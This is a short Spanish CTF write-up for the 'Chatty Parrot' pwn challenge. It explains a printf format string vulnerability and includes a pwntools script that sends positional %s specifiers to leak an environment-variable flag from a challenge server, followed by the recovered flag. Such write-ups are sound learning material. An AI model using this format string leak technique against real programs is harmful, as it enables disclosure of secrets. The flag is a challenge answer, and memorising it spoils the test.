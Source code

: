 # Chatty Parrot

El programa exigia que existiese la variable de entorno `FLAG_VAL`, que en el servidor era el valor real de la bandera.

El programa tomaba la entrada, la almacenaba en un `buffer` y la imprimia en pantalla con `printf(buffer)`, claramente vulnerable a cadena formateada.

La pila almacena punteros a las variables de entorno en el fondo de la misma. Con el operador `%n80$s` podemos imprimir como una cadena C el valor apuntado por un puntero en la N-esima posicion de la pila. (A veces puede causar SIGSEV si se intenta leer un puntero nulo).

Alrededor de la posicion 79 con respecto al registro rsp al momento del `printf` se encuentra el puntero a `FLAG_VAL`:

```python
#!/usr/bin/env python3

from operator import add
from pwn import *
elf = ELF("./ChattyParrot")
#libc = ELF("./")
#ld = ELF("./")

context.binary = elf
context.terminal = ['tmux', 'splitw', '-hp', '70']
#context.log_level = "debug"
gs = '''
break main
'''

domain= "ctf.mf.grsu.by"
port = 9077

def start():
    if args.REMOTE:
        return remote(domain, port)
    if args.GDB:
        return gdb.debug([elf.path], gdbscript=gs)
    else:
        return process([elf.path],env={"FLAG_VAL":"TEST-TEST-TEST"})
r = start()

#========= exploit here ===================

payload = b"%78$s %79$s %80$s"
r.sendlineafter(b"phrase:",payload)
leaks = r.recvline()
print(leaks)
# LEAKS
```

`grodno{J35KiI_P4RR07_Drug_M47u3}`
